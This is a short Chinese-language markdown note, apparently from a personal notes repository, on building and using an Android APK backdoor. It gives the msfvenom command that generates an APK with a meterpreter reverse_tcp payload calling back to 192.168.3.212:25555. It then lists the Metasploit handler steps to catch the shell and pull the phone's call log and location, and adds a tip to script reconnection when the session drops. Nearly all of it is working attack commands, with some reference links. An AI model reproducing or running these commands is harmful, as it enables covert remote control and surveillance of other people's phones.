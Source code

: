 # Apk后门测试

创建apk  
`msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.3.212 lport=25555 R > /root/123.apk`  
安装，需要把权限开全，比如位置信息

服务端:

1. `use exploit/multi/handler`
2. `set payload android/meterpreter/reverse_tcp`
3. `set lhost 192.168.3.212`
4. `set lport 25555`
5. `exploit`
6. `dump_calllog`通话记录
7. `geolocate`定位

这个隔一会就会断开，需要建立连接后写个sh的脚本，每隔一段时间就做一下

```txt
https://www.cnblogs.com/zilong666/p/8430130.html  
https://www.freebuf.com/articles/terminal/107801.html  
https://www.freebuf.com/articles/terminal/116924.html  
https://www.freebuf.com/articles/terminal/133357.html  
```